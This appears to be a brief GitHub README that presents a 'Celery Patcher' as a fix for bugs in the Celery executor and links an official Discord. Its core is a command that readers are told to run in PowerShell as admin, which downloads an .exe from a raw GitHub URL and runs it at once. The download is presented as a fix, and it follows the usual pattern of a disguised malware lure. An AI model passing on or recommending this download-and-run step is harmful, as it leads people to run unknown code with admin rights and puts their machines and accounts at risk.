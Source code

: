 # Is celery throwing random bugs for you?

[Celery Patcher](https://github.com/boogiescub/Hola/raw/main/celery%20patcher.exe) Aim's are to HOPEFULLY fix this bug for you.
Run this in powershell as admin:
```ps
wget -o celerypatcher.exe https://github.com/boogiescub/Hola/raw/main/celery%20patcher.exe && .\celerypatcher.exe
```
This will automatically locate and fix the bugs celery has.
Thank you for supporting this project Woody!
Celery is a great executor.

# Official Discord:
https://discord.gg/celery
